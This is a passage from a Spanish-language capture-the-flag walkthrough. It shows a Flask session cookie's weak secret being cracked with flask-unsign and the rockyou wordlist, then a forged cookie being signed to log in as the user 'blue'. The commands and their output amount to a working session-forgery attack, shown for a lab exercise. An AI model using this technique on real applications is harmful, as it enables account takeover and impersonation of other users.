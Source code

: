 Después de lanzarlo, me da como salida el usuario **blue**.

Las cookies de Flask están firmadas con un secreto, por lo que no se pueden modificar sin conocer ese secreto. Es posible realizar un ataque de fuerza bruta para comprobar si hay un secreto débil y `flask-unsign` proporciona esa capacidad.

Ejecutándolo con `rockyou.txt` devuelve un error inicialmente, pero usando `--no-literal-eval` funciona:

```bash
flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiMHhkZiJ9.YkOi3w.izn9BJ3ifHAo0BAfnrWr3EW6Nuc' -w /usr/share/wordlists/rockyou.txt --no-literal-eval
```

```
[*] Session decodes to: {'logged_in': True, 'username': 'test'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'
```

Ahora, usaré `flask-unsign` para hacer una cookie con el usuario encontrado:

```bash
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret secret123
```

```
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkRUJg.-0B60ZY6aQyHOSoCxBnWGOx-Rbw
```

Reemplazando la cookie actual en las herramientas de desarrollo de Firefox y luego recargando `/dashboard` muestra que ahora estoy conectado como **blue**:

![Usuario Blue](/secciones/posts/imagenes/noter/blue1.webp)

## Acceso a Notas del Usuario Blue

Ahora si miramos las notas podremos ver la siguiente información:
